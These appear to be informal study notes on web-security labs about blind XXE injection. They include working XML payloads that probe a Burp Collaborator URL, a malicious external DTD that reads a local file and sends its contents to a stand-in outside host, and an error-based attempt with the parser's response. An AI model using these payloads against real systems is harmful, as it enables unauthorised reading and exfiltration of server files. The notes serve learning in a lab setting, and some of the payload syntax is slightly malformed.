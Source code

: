 
To solve this you need burp collaborator

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://collaboratorurl/testing"> %xxe; ]>
```

# # Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD #

We cant do this , but we have the explannation of the external DTD up
on the pc
```
<!DOCTYPE foo [<!ENTITY %xxe SYSTEM "url/"> %xxe;]>
```

SERVER:
```
<!ENTITY % file SYSTEM "file://etc/hostname">
<!ENTITY% eval "<!ENTITY &#x25; exfil SYSTEM 'http://theotherserver.com/?content=%file;'>">
%eval;
%exfil;
```


# Lab: Exploiting blind XXE to retrieve data via error messages #

We cant do this (?)

Here the exercise has his own server where put an exploit. We start searching if we can put our entities inside of the XML labels.

```
<!DOCTYPE foo[<!ENTITY xxe "testing" >] >

<product>
&xxe
</product>
```

and we get "entities are not allowed for security reasons"

Now we do the second try WITH AN EXTERNAL ENTITY

```
<!DOCTYPE foo[<!ENTITY % xxe SYSTEM "http://urlexternal.com">  %xxe; ] >

<product>
1
</product>
```

we recived this error :

```
"XML parser exited with error: java.net.UnknownHostException: urlexternal.com"
```
